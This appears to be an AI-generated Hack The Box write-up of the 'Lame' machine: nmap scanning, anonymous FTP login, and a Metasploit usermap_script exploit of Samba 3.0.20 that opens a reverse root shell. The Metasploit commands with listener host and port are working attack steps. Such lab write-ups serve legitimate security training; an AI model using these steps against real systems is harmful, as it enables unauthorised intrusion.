 # Hack The Box - Lame Write-Up

You can access the machine [here](https://www.exploit-db.com/exploits/16320)) on Hack The Box.

- **Target IP:** `10.10.10.3`

---

## 🌐 Initial Scanning

1. **Ping the target to check if it's alive:**
   ```bash
   ping 10.10.10.3
````

2. **Performed an Nmap scan:**

   ```bash
   nmap -sT -Pn -A 10.10.10.3
   ```

   **Nmap Results:**

   * **FTP (21/tcp)**: vsftpd 2.3.4 (Anonymous login allowed)
   * **SSH (22/tcp)**: OpenSSH 4.7p1
   * **SMB (139/tcp)**: Samba 3.0.20-Debian

---

## 🔎 Enumeration

### FTP

* Anonymous login was allowed:

  ```bash
  ftp 10.10.10.3
  ```

  * Logged in as `ftp`, but no useful files were found.

### SMB

* Samba version `3.0.20` was identified.
* Searched for known vulnerabilities and found it was **vulnerable to remote code execution**.

---

## 💥 Exploitation

* Found a matching exploit on [Exploit-DB](https://www.exploit-db.com/) and confirmed it was available in **Metasploit**.

* Launched Metasploit and used the `usermap_script` exploit:

  ```bash
  use exploit/multi/samba/usermap_script
  set RHOST "htb vm ip"
  set lhost "htbvpn ip"
  set lport 4444 #any port
  run
  ```

* Gained a **root shell** successfully.

---

## 🏁 Post Exploitation

* Verified root access with:

  ```bash
  id
  ```

  * Output: `root`

* Retrieved the user and root flag.

---

**Status:** ✅ Root access obtained via Samba RCE vulnerability.

```

Let me know if you want this exported as a PDF or if you’d like to make it into a general HTB exploit report template!
```
